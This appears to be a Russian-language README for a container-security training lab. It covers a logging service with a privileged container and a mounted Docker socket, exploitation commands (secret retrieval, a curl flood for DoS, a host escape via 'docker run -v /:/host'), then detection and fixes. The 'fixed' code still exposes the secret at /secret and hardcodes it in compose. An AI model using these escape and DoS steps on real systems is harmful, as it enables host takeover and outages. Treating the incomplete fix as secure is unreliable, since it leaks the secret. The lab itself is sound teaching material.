 ## Сценарий B: «Лог-монстр и побег из контейнера»
**Уровень сложности:** продвинутый  
**Суть проблемы:**  
В этой истории вы — сервисный инженер “FinCorp”, отвечающий за централизованный сбор логов. Вам поручили развернуть Logging Service, который принимает GET-запросы и пишет их в файл /logs/app.log на хосте. 
Так же требуется вызывать docker для сбора метаданных контейнеров, ротации логов или запуска вспомогательных контейнеров — поэтому разработчики добавили Docker-клиент в образ.
По ошибке конфигурации:

• контейнер запускают с privileged: true и монтируют /var/run/docker.sock, что даёт полный доступ к Docker-демону хоста;
• логи пишутся в hostPath ./host_logs, без режима read-only;
• не заданы лимиты CPU/памяти, что позволяет устроить DoS;
• логгер выводит все process.env, включая APP_SECRET, — утечка секрета.

## Запуск
- Сборка
```sh
docker-compose up --build -d
```
- Убедитесь, что контейнеры запущены:
```sh
docker ps
```

## Эксплуатация уязвимостей
- Получите секрет через HTTP:
```sh
curl http://localhost:4000/secret
```

- Проверьте эндпоинт логирования и файл, в который записываются логи:
```sh
curl "http://localhost:4000/log?msg=spam"

cat ./host_logs/app.log
```
Должно быть две записи - одна после обращения к секрету и вторая от обращения к логеру

- Устроьте DoS, заполняя логи (чтобы остановить процесс - нажмите CTRL+C)
```sh
while true; do curl "http://localhost:4000/log?msg=spam"; done
```
При достаточно продолжительном DoS файл ./host_logs/app.log может разрастись до очень большого размера и вызвать отказ сервиса

- Побег из контейнера:
Сперва зайти в оболочку контейнера, а затем произведите побег
```sh
docker exec -it labb_logmonster-log-srvc-1 sh

docker run --rm -v /:/host alpine sh -c "echo breakout > /host/tmp/breakout.txt"
```

## Обнаружение
- Проверка привилегий:
```sh
docker inspect labb_logmonster-log-srvc-1 --format '{{ .HostConfig.Privileged }}'
```

- Проверка socket-монтирования:
```sh
 docker inspect labb_logmonster-log-srvc-1 --format '{{ .HostConfig.Binds }}'
```

- Поиск утечки секрета в логах:
```sh
grep APP_SECRET host_logs/app.log
```
- Мониторинг ресурсов (DoS):
```sh
docker stats labb_logmonster-log-srvc-1
```

## Исправления
- Удалить privileged и монтирование Docker-socket и запускать контейнер от непривилегированного пользователя:
Новый `docker-compose` файл ->
```yml
version: '3.8'
services:
  log-srvc:
    build: .
    image: log:latest
    ports:
      - "4000:4000"
    volumes:
    - logs_data:/logs
    environment:
      - APP_SECRET=SuperSecret123
    deploy:
      resources:
        limits:
          cpus: '0.5'
          memory: 256M
volumes:
  logs_data:
```

- Изменить logger.js, чтобы он не включал process.env в логи, а только пользовательское сообщение
```js
const express = require('express');
const fse = require('fs-extra');
const path = require('path');

const app = express();
const LOG_DIR = '/logs';
const LOG_FILE = path.join(LOG_DIR, 'app.log');

fse.ensureDirSync(LOG_DIR);

app.use((req, res, next) => {
  const timestamp = new Date().toISOString();
  const line = `[${timestamp}] PATH=${req.path}\n`;
  fse.appendFileSync(LOG_FILE, line);
  next();
});

app.get('/log', (req, res) => {
  const msg = req.query.msg || '';
  const line = `[${new Date().toISOString()}] MSG=${msg}\n`;
  fse.appendFileSync(LOG_FILE, line);
  res.send('Logged');
});

app.get('/secret', (req, res) => {
  res.send(`SECRET=${process.env.APP_SECRET}`);
});

app.listen(4000, () => console.log('LogMonster listening on 4000'));
```
